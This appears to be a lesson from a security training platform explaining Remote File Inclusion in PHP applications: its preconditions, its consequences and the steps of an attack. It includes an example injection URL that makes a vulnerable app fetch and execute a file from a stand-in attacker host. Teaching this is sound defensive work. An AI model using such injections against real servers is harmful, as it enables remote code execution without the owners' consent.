
Remote File Inclusion - RFI  

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. 

Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

One requirement for RFI is that the allow_url_fopen option needs to be on.  


The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. 

Other consequences of a successful RFI attack include:

-   Sensitive Information Disclosure
-   Cross-site Scripting (XSS)
-   Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. 

Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)  

RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.